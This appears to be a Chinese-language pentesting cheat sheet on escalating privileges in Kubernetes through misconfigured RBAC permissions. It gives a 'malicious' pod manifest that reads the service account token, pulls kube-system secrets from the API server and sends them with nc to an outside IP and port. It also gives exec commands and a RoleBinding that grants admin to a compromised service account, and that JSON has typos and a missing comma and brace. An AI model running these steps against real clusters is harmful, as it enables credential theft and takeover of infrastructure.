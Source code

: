 ### 访问任何资源或动词

```powershell
resources:
- '*'
verbs:
- '*'
```

### 创建 Pod

使用 `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml` 检查您的权限。
然后创建一个恶意的 pod.yaml 文件。

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

然后 `kubectl apply -f malicious-pod.yaml`

### 使用 Pods/Exec 的权限

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### 获取/修补 Rolebindings 的权限

此 JSON 文件的目的是将管理员 "ClusterRole" 绑定到受损的服务帐户。
创建一个恶意的 RoleBinging.json 文件。

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
```